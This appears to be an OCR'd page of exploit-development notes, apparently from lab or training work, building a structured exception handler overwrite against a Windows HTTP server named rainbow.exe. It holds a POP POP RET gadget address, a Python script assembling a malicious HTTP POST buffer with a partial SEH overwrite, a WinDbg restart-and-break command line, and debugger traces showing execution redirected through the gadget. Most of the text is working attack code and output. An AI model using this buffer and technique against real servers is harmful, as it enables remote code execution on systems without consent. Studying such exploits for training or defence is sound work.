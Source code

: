 probably this one
```
0x4094d8: pop ecx ; pop ecx ; ret ; 
```

Removing the tail simplifies the buffer
```python
    total_len = 3908
    crash_len = 664
    head = "POST / HTTP/1.1\x0d\x0aContent-Type: application/x-www-form-urlencoded\x0d\x0a\x0d\x0a"
    sled1 = ("\x40" * crash_len)
    SEH = "\xd8\x94\x40"  ## 0x4094d8: pop ecx ; pop ecx ; ret ; 
    buf = f"{head}{sled1}{SEH}"
```

New breakpoint; break on pop pop ret.
```sh
((cmd.exe /c "taskkill /F /IM rainbow.exe" && timeout 3 && START /B "" "c:\rainbow\rainbow.exe" > c:\users\admin\desktop\current_thing\output.txt) || START /B "" "c:\rainbow\rainbow.exe" > c:\users\admin\desktop\current_thing\output.txt) && timeout 3 && "C:\Program Files (x86)\Windows Kits\10\Debuggers\x86\windbg.exe" -WF C:\windbg_custom.WEW -pn rainbow.exe -c 'bp 0x4094d8; g'
```

Crash
```sh
0:003> !exchain
009ff8e4: rainbow+a040 (0040a040)
009ff924: rainbow+a040 (0040a040)
009ffbe4: rainbow+94d8 (004094d8)
Invalid exception stack at 40404040
0:003> t
Breakpoint 0 hit
eax=00000000 ebx=00000000 ecx=004094d8 edx=775d9280 esi=00000000 edi=00000000
eip=004094d8 esp=009ff310 ebp=009ff330 iopl=0         nv up ei pl zr na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000246
rainbow+0x94d8:
004094d8 59              pop     ecx
0:003> t
eax=00000000 ebx=00000000 ecx=775d9262 edx=775d9280 esi=00000000 edi=00000000
eip=004094d9 esp=009ff314 ebp=009ff330 iopl=0         nv up ei pl zr na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000246
rainbow+0x94d9:
004094d9 59              pop     ecx
0:003> t
eax=00000000 ebx=00000000 ecx=009ff414 edx=775d9280 esi=00000000 edi=00000000
eip=004094da esp=009ff318 ebp=009ff330 iopl=0         nv up ei pl zr na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000246
rainbow+0x94da:
004094da c3              ret
0:003> dd esp L1
009ff318  009ffbe4
0:003> dd 0x009ffbe4 L10
009ffbe4  40404040 004094d8 00000005 009ffef0
009ffbf4  004026b3 00546058 005460e8 005460e8
009ffc04  009ffe74 0019eca8 0040b5a0 005460a8
009ffc14  00000000 00000000 0040b55c 005464d0
```
